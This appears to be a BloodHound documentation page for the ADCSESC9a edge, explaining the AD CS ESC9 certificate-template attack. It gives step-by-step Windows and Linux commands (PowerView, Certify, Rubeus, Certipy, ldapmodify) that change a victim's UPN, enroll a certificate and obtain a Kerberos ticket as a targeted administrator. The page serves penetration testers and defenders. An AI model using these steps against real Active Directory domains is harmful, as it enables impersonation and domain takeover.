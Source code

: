 ---
title: ADCSESC9a
description: "The principal has control over a victim principal with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `userPrincipalName` (UPN) of the enrollee included in the Subject Alternative Name (SAN), and 3) do not have the security extension enabled."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


The victim also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest principal (user or computer) without their credentials. The attacker principal can abuse their control over the victim principal to modify the victim's UPN to match the `sAMAccountName` of a targeted principal. Example: If the targeted principal is Administrator@corp.local user, the victim's UPN will be populated with "Administrator" (without the @corp.local ending). The attacker principal will then abuse their control over the victim principal to obtain the credentials of the victim principal, or a session as the victim principal, and enroll a certificate as the victim in one of the affected certificate templates. The UPN of the victim ("Administrator") will be included in the issued certificate under the SAN. As the certificate template does not have the security extension, it will NOT include the SID of the victim user in the issued certificate. Next, the attacker principal will again set the UPN of the victim, this time to an arbitrary string (e.g. the original value). The issued certificate can now be used for authentication against an affected DC. The weak certificate binding configuration on the DC will make the DC accept that the SID of the victim user is not present in the issued certificate when performing Kerberos authentication, and it will use the SAN value to map the certificate to a principal. The DC will attempt to find a principal with a UPN matching the SAN value ("Administrator") but as the victim's UPN has been changed after the enrollment, there will be no principals with this UPN. The DC will then attempt to find a principal with a `sAMAccountName` matching the SAN value and find the targeted user. At last, the DC issues a Kerberos TGT as the targeted user to the attacker, which means the attacker now has a session as the targeted user. In case the target is a computer, the DC will find it as well as the DC will attempt `sAMAccountName` matching with a $ at the end of the SAN value as last resort.

## Abuse Info

### Windows

Step 1: Set UPN of victim to targeted principal's `sAMAccountName`. Set the UPN of the victim principal using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'userprincipalname'='Target'}
```
Step 2: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 3.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```PowerShell
Get-DomainObject -Identity VICTIM -Properties mail
```
If the victim has the mail attribute set, continue to Step 3.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 3: Obtain a session as victim. There are several options for this step.

If the victim is a computer, you can obtain the credentials of the computer account using the Shadow
Credentials attack (see [AddKeyCredentialLink edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/add-key-credential-link) documentation).

Alternatively, you can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/generic-all) documentation).

If the victim is a user, you have the following options for obtaining the credentials:

* Shadow Credentials attack (see [AddKeyCredentialLink edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/add-key-credential-link) documentation).
* Password reset (see [ForceChangePassword edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/force-change-password) documentation).
* Targeted Kerberoasting (see [WriteSPN edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/write-spn) documentation).

Step 4: Enroll certificate as victim.

Use Certify (2.0) as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```cmd
Certify.exe request --ca SERVER\CA-NAME --template TEMPLATE
```
The certificate PFX is printed to the console in a base64-encoded format.

Step 5: Set UPN of victim to arbitrary value.

Set the UPN of the victim principal using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'userprincipalname'='victim@corp.local'}
```

Step 6: Perform Kerberos authentication as targeted principal against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the target identity to impersonate and the base64-encoded PFX obtained in Step 4:

```cmd
Rubeus.exe asktgt /certificate:<cert base64> /user:forestrootda /domain:forestroot.com /ptt
```

### Linux

Step 1: Set UPN of victim to targeted principal's `sAMAccountName`. Set the UPN of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -upn Target
```
Step 2: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 3.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 3.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 3: Obtain a session as victim. There are several options for this step.

If the victim is a computer, you can obtain the credentials of the computer account using the Shadow
Credentials attack (see [AddKeyCredentialLink edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/add-key-credential-link) documentation).

Alternatively, you can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/generic-all) documentation).

If the victim is a user, you have the following options for obtaining the credentials:

* Shadow Credentials attack (see [AddKeyCredentialLink edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/add-key-credential-link) documentation).
* Password reset (see [ForceChangePassword edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/force-change-password) documentation).
* Targeted Kerberoasting (see [WriteSPN edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/write-spn) documentation).

Step 4: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```

Step 5: Set UPN of victim to arbitrary value.

Set the UPN of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -upn victim@corp.local
```
Step 6: Perform Kerberos authentication as targeted principal against affected DC using certificate.

Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 4 and the IP of an affected DC:
```bash
 certipy auth -pfx TARGET.pfx -dc-ip IP
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Destination: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)  
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certify](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
